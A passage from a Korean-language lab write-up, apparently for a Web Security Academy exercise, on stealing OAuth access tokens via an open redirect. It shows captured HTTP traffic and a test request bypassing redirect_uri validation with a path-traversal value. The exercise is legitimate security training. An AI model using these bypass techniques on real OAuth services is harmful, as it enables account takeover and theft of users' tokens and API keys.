```http
```

5. 그리고 위의 자바스크립트가 동작하면 다음과 같은 요청(/me)이 발생한다. 위의 과정에서 얻은 억세스 토큰이 Authorization헤더에 들어가 있다. 

```http
GET /me HTTP/2
Host: oauth-0aea007504828638856ddd8a0276005c.oauth-server.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a4f00b204dd86d485d9dffc0046006e.web-security-academy.net/
Authorization: Bearer uSe12JouUJqqJXn7KRMuqTmSN1ZCxE0TK7ZbbeOj4eU
Content-Type: application/json
Origin: https://0a4f00b204dd86d485d9dffc0046006e.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
Te: trailers


```

6. 위의 요청에 대한 응답이다. 웹 사이트는 OAuth 억세스 토큰을 받아서 apiKey를 회신해준다. 문제를 풀려면 관리자의 apiKey를 얻어내야 한다. 

```http
HTTP/2 200 OK
X-Powered-By: Express
Vary: Origin
Access-Control-Allow-Origin: https://0a4f00b204dd86d485d9dffc0046006e.web-security-academy.net
Access-Control-Expose-Headers: WWW-Authenticate
Pragma: no-cache
Cache-Control: no-cache, no-store
Content-Type: application/json; charset=utf-8
Date: Mon, 01 May 2023 23:49:26 GMT
Keep-Alive: timeout=5
Content-Length: 132

{"sub":"wiener","apikey":"WEH9KMHqP0qUcIXtQY9Dt2chA4NESpUK","name":"Peter Wiener","email":"wiener@hotdog.com","email_verified":true}
```

## 공격 포인트 찾아보기
공격이 성공하려면 이 OAuth 서비스 측에 오픈 리디렉션 취약점이 있어야 한다. 오픈 리디렉션을 사용하면 redirect_uri를 exploit 서버의 URL로 변경하고 클라이언트 앱 관리자가 해당 URL에 액세스하게 될 경우 액세스 토큰을 얻을 수 있을 것이다. 

1. OAuth 서비스측의 redirect_uri 파라메터 검증을 우회할 수 있는지 확인한다. 억세스 토큰을 얻기 위한 요청에서 redirect_uri를 변경할 수 있는지 확인해본다. 

```http
GET /auth?client_id=mqzu9z32x9qcdd553lnz6&redirect_uri=https://0a140018040e8156826060e40075003f.web-security-academy.net/oauth-callback/../&response_type=token&nonce=-1731113332&scope=openid%20profile%20email HTTP/2
Host: oauth-0aff00b2042081e782f25e1d02300010.oauth-server.net
Cookie: _session=RcZxkEoU0dDw0Yjekicx8; _session.legacy=RcZxkEoU0dDw0Yjekicx8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers

```